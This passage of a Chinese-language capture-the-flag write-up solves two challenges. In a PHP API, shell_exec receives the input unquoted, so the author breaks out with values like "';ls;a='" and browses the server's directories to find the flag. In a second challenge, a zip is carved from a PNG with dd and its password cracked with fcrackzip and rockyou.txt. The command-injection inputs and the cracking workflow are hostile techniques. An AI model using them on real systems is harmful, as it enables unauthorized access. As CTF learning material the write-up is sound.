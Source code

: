 看來這個php直接把你給的路徑丟進`shell_exec("cat '$file'")`裡頭，這相當於給了我們shell：

```
/api.php?get=';ls;a='
{"output":"api.php\ncss\nindex.html\njs\n"}
/api.php?get=';cd ..;ls;a='
{"output":"html\n"}
/api.php?get=';cd ../..;ls;a='
{"output":"backups\ncache\nlib\nlocal\nlock\nlog\nmail\nopt\nrun\nspool\ntmp\nwww\n"}
/api.php?get=';cd ../../..;ls;a='
{"output":"5qu1rr3l_15_4_k1nd_0f_b16_r47.txt\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```

就拿到flag惹，松鼠蠻可愛的ww

### Misc - Karuego

只給你一張檔案不知道在大什麼的圖片，上網稍微查了下圖片怎麼藏資料，幾乎全都是說把zip接在圖片後面

那就直接試著解壓縮：

```bash
$ unzip Karuego.png
Archive:  Karuego.png
warning [Karuego.png]:  2059568 extra bytes at beginning or within zipfile
  (attempting to process anyway)
[Karuego.png] files/3a66fa5887bcb740438f1fb49f78569cb56e9233_hq.jpg password:
```

真的是，而且還有加密。先用`dd`把zip部份拿出來，再使用`fcrackzip`配合rockyou.txt去試密碼：

```shell
$ dd bs=2059568 skip=1 if=Karuego.png of=out.zip
0+1 records in
0+1 records out
1201353 bytes transferred in 0.004195 secs (286379068 bytes/sec)
$ fcrackzip -v -u -D -p rockyou.txt out.zip
'files/' is not encrypted, skipping
found file 'files/3a66fa5887bcb740438f1fb49f78569cb56e9233_hq.jpg', (size cp/uc 113020/113110, flags 9, chk 216f)
found file 'files/Demon.png', (size cp/uc 1087747/1092860, flags 9, chk 86e2)
checking pw luis99fer

PASSWORD FOUND!!!!: pw == lafire
```

解壓縮之後可以得到flag的圖片：
